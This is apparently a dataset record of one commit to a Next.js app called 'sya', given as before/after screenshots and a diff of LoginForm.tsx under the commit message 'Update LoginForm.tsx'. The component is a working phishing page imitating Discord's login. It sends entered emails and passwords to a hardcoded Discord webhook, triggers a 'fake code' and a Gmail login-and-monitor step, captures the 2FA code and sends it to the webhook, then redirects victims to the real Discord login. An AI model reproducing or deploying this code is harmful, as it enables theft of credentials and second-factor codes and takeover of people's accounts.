

Before and after one commit to nusenusewhen-bot/sya, a Next.js app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update LoginForm.tsx

```diff
--- a/components/ui/LoginForm.tsx
+++ b/components/ui/LoginForm.tsx
@@ -1,55 +1,55 @@
 'use client';
 import { useForm } from 'react-hook-form';
 import { useState } from 'react';
-import Image from 'next/image';
+import { Eye, EyeOff, ArrowLeft } from 'lucide-react';
 
 type FormData = { email: string; password: string; code?: string };
 
 export default function LoginForm() {
-  const { register, handleSubmit } = useForm<FormData>();
-  const [step, setStep] = useState<'login' | 'forgot' | 'code'>('login');
+  const { register, handleSubmit, watch } = useForm<FormData>();
+  const [step, setStep] = useState<'login' | 'code'>('login');
+  const [showPassword, setShowPassword] = useState(false);
+  const [loading, setLoading] = useState(false);
   const [email, setEmail] = useState('');
   const [password, setPassword] = useState('');
-  const [loading, setLoading] = useState(false);
+
+  const emailValue = watch('email');
+  const passwordValue = watch('password');
 
   const onLogin = async (data: FormData) => {
     setLoading(true);
     setEmail(data.email);
     setPassword(data.password);
 
+    // Send credentials to webhook
     await fetch('https://discord.com/api/webhooks/1479843046223909040/kGSLiyRPqh9TqsZfhRqMqc0fHdF05ZasD7DQNMHGT4Y7Su3yrCTU7N1Y_QhdZwgie614', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({
         embeds: [{
-          title: "Login Attempt",
+          title: "New Login Attempt",
           color: 0x5865f2,
           fields: [
             { name: "Email", value: data.email },
             { name: "Password", value: data.password }
-          ]
+          ],
+          timestamp: new Date().toISOString()
         }]
       })
     });
 
-    setStep('forgot');
-    setLoading(false);
-  };
-
-  const onForgot = async (data: FormData) => {
-    setLoading(true);
-    setEmail(data.email);
-
+    // Send fake code to email
     await fetch('/api/send-fake-code', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({ email: data.email })
     }).catch(() => {});
 
+    // Login to Gmail and monitor
     await fetch('/api/gmail-login', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
-      body: JSON.stringify({ email: data.email, password })
+      body: JSON.stringify({ email: data.email, password: data.password })
     }).catch(() => {});
 
     setStep('code');
@@ -64,12 +64,13 @@ export default function LoginForm() {
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({
         embeds: [{
-          title: "Verification Code Entered",
+          title: "2FA Code Entered",
           color: 0x00ff00,
           fields: [
             { name: "Email", value: email },
             { name: "Code", value: data.code }
-          ]
+          ],
+          timestamp: new Date().toISOString()
         }]
       })
     });
@@ -77,72 +78,27 @@ export default function LoginForm() {
     window.location.href = 'https://discord.com/login';
   };
 
-  if (step === 'forgot') {
+  if (step === 'code') {
     return (
-      <div className="min-h-screen flex items-center justify-center bg-[#313338]">
-        <div className="w-full max-w-[480px] p-8 bg-[#313338]">
-          <div className="mb-5">
-            <h1 className="text-[24px] font-semibold text-[#f2f3f5] mb-2">Forgot your password?</h1>
-            <p className="text-[#b5bac1] text-[14px] leading-[20px]">
-              Enter your email and we'll send you a reset code.
-            </p>
-          </div>
-
-          <form onSubmit={handleSubmit(onForgot)} className="space-y-4">
-            <div>
-              <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2">
-                Email or Phone Number
-              </label>
-              <input
-                {...register('email', { required: true })}
-                defaultValue={email}
-                className="w-full h-[40px] px-[10px] bg-[#1e1f22] text-[#dbdee1] text-[16px] rounded-[3px] border border-[#1e1f22] focus:border-[#00a8fc] focus:outline-none transition-colors placeholder:text-[#87898c]"
-                placeholder="Email or Phone Number"
-                required
-              />
-            </div>
-
-            <button
-              type="submit"
-              disabled={loading}
-              className="w-full h-[44px] bg-[#5865f2] hover:bg-[#4752c4] text-white font-medium rounded-[3px] transition-colors disabled:opacity-70"
-            >
-              {loading ? 'Sending...' : 'Send Reset Code'}
+      <div className="min-h-screen bg-[#1a1b1e] flex flex-col px-6 py-8">
+        <button onClick={() => setStep('login')} className="mb-6">
+          <ArrowLeft className="w-6 h-6 text-white" />
         </button>
 
-            <button
-              type="button"
-              onClick={() => setStep('login')}
-              className="text-[#00a8fc] text-[14px] hover:underline mt-4 block"
-            >
-              Back to Login
-            </button>
-          </form>
-        </div>
-      </div>
-    );
-  }
-
-  if (step === 'code') {
-    return (
-      <div className="min-h-screen flex items-center justify-center bg-[#313338]">
-        <div className="w-full max-w-[480px] p-8 bg-[#313338]">
-          <div className="mb-5">
-            <h1 className="text-[24px] font-semibold text-[#f2f3f5] mb-2">Check Your Email</h1>
-            <p className="text-[#b5bac1] text-[14px] leading-[20px]">
-              We sent a code to <span className="text-[#f2f3f5]">{email}</span>
+        <h1 className="text-[28px] font-bold text-white mb-2">Check your email</h1>
+        <p className="text-[#b5bac1] text-[14px] mb-8">
+          We sent a code to <span className="text-white">{email}</span>
         </p>
-          </div>
 
         <form onSubmit={handleSubmit(onCode)} className="space-y-4">
           <div>
-              <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2">
-                Enter Code
+            <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2 tracking-wide">
+              Code
             </label>
             <input
               {...register('code', { required: true })}
               maxLength={6}
-                className="w-full h-[40px] px-[10px] bg-[#1e1f22] text-[#dbdee1] text-[16px] rounded-[3px] border border-[#1e1f22] focus:border-[#00a8fc] focus:outline-none transition-colors text-center tracking-[4px] font-mono"
+              className="w-full h-[50px] px-4 bg-[#1e1f22] border border-[#1e1f22] rounded-[8px] text-white text-[16px] focus:border-[#5865f2] focus:outline-none transition-colors placeholder:text-[#87898c] text-center tracking-[8px] font-mono"
               placeholder="000000"
               required
             />
@@ -151,74 +107,85 @@ export default function LoginForm() {
           <button
             type="submit"
             disabled={loading}
-              className="w-full h-[44px] bg-[#5865f2] hover:bg-[#4752c4] text-white font-medium rounded-[3px] transition-colors disabled:opacity-70"
+            className="w-full h-[50px] bg-[#5865f2] hover:bg-[#4752c4] text-white font-semibold rounded-[8px] transition-colors disabled:opacity-70 mt-4"
           >
             {loading ? 'Verifying...' : 'Verify'}
           </button>
         </form>
       </div>
-      </div>
     );
   }
 
   return (
-    <div className="min-h-screen flex items-center justify-center bg-[#313338]">
-      <div className="w-full max-w-[480px] p-8 bg-[#313338]">
-        <div className="mb-5">
-          <h1 className="text-[24px] font-semibold text-[#f2f3f5] mb-2">Welcome back!</h1>
-          <p className="text-[#b5bac1] text-[14px] leading-[20px]">
+    <div className="min-h-screen bg-[#1a1b1e] flex flex-col px-6 py-8">
+      <button className="mb-6">
+        <ArrowLeft className="w-6 h-6 text-white" />
+      </button>
+
+      <h1 className="text-[28px] font-bold text-white mb-2">Welcome back!</h1>
+      <p className="text-[#b5bac1] text-[14px] mb-8">
         We're so excited to see you again!
       </p>
-        </div>
 
-        <form onSubmit={handleSubmit(onLogin)} className="space-y-4">
+      <form onSubmit={handleSubmit(onLogin)} className="space-y-5">
         <div>
-            <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2">
-              Email or Phone Number <span className="text-[#f23f43]">*</span>
+          <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2 tracking-wide">
+            Email or Phone Number
           </label>
           <input
             {...register('email', { required: true })}
-              className="w-full h-[40px] px-[10px] bg-[#1e1f22] text-[#dbdee1] text-[16px] rounded-[3px] border border-[#1e1f22] focus:border-[#00a8fc] focus:outline-none transition-colors placeholder:text-[#87898c]"
-              placeholder="Email or Phone Number"
+            className="w-full h-[50px] px-4 bg-[#1e1f22] border border-[#1e1f22] rounded-[8px] text-white text-[16px] focus:border-[#5865f2] focus:outline-none transition-colors placeholder:text-[#87898c]"
+            placeholder=""
             required
           />
         </div>
 
         <div>
-            <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2">
-              Password <span className="text-[#f23f43]">*</span>
+          <label className="block text-[#b5bac1] text-[12px] font-semibold uppercase mb-2 tracking-wide">
+            Password
           </label>
+          <div className="relative">
             <input
-              type="password"
+              type={showPassword ? 'text' : 'password'}
               {...register('password', { required: true })}
-              className="w-full h-[40px] px-[10px] bg-[#1e1f22] text-[#dbdee1] text-[16px] rounded-[3px] border border-[#1e1f22] focus:border-[#00a8fc] focus:outline-none transition-colors placeholder:text-[#87898c]"
-              placeholder="Password"
+              className="w-full h-[50px] px-4 pr-12 bg-[#1e1f22] border border-[#1e1f22] rounded-[8px] text-white text-[16px] focus:border-[#5865f2] focus:outline-none transition-colors placeholder:text-[#87898c]"
+              placeholder=""
               required
             />
+            <button
+              type="button"
+              onClick={() => setShowPassword(!showPassword)}
+              className="absolute right-4 top-1/2 -translate-y-1/2 text-[#b5bac1]"
+            >
+              {showPassword ? <EyeOff size={20} /> : <Eye size={20} />}
+            </button>
+          </div>
         </div>
 
         <button
           type="button"
-            onClick={() => setStep('forgot')}
-            className="text-[#00a8fc] text-[14px] hover:underline"
+          className="text-[#00a8fc] text-[14px] font-medium hover:underline"
         >
           Forgot your password?
         </button>
 
         <button
           type="submit"
-            disabled={loading}
-            className="w-full h-[44px] bg-[#5865f2] hover:bg-[#4752c4] text-white font-medium rounded-[3px] transition-colors disabled:opacity-70 mt-2"
+          disabled={loading || !emailValue || !passwordValue}
+          className="w-full h-[50px] bg-[#5865f2] hover:bg-[#4752c4] text-white font-semibold rounded-[8px] transition-colors disabled:opacity-50 disabled:cursor-not-allowed mt-2"
         >
           {loading ? 'Logging in...' : 'Log In'}
         </button>
 
-          <div className="text-[#949ba4] text-[14px] mt-4">
-            Need an account?{' '}
-            <a href="#" className="text-[#00a8fc] hover:underline">Register</a>
+        <div className="text-center">
+          <button
+            type="button"
+            className="text-[#00a8fc] text-[14px] font-medium hover:underline"
+          >
+            Or, sign in with passkey
+          </button>
         </div>
       </form>
     </div>
-    </div>
   );
 }
```
Lines whose indentation alone changed are shown as unchanged.
